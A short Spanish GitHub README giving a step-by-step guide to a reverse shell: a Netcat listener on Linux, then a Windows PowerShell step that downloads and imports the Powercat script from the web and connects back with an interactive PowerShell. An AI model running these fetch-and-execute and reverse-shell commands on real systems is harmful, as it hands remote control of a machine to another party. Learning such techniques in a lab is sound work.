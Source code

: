# RemotePowerShells
Repositorio sobre shell remotas.


\`\`\`markdown
# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   \`\`\`bash
   nc -lvp 4444
   \`\`\`
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   \`\`\`powershell
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   \`\`\`
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   \`\`\`powershell
   powercat -c <ip-address> -p 4444 -ep powershell
   \`\`\`
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.
\`\`\`
